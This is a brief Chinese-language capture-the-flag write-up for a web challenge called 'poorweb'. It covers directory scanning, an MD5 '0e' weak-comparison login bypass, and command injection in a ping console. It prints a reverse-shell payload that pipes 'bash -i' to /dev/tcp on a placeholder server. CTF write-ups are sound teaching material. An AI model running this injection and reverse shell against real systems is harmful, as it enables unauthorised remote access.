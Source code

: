 # poorweb WP

## 考点

网站目录扫描，md5绕过，RCE，反弹shell

## WP

用dirsearch扫出config.ini，查看，得到admin和textuser的用户名和密码md5。其中textuser的md5能通过https://www.somd5.com/反解出来，但没有什么用。（如果用textuser登录会无法注销，需要用浏览器删除cookie才可以退出登录）admin的md5密码注意到头两位是0e，猜测后端用的==弱类型判断，选取一个md5值头两位为0e的字符串绕过直接进入后台界面。

发现后台界面是一个控制台，要求你输入一个网址，如果是正常的网址会返回ping的时间，如果输错了会告诉你无法连接。猜测后台用的是exec(ping)函数，由于无回显，所以可以直接反弹shell，弹过去后直接`cat /flag`拿到flag.

payload是`127.0.0.1|bash -i >& /dev/tcp/xx.xx.xx.xxx/xxx 0>&1`

xx部分填自己服务器的ip和端口就行。

